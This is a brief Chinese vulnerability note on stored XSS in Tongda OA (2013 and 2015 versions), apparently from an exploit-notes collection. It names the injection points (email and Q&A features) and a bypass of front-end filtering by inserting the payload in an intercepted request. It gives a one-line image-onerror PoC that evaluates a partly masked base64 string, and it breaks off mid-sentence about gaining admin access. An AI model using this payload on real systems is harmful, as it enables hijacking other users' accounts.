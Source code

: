 通达oa xss
==========

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤，
所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

    <img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))>

![](./resource/通达oaxss/media/rId24.png)

![](./resource/通达oaxss/media/rId25.png)

这个漏洞获取admin权限⾮
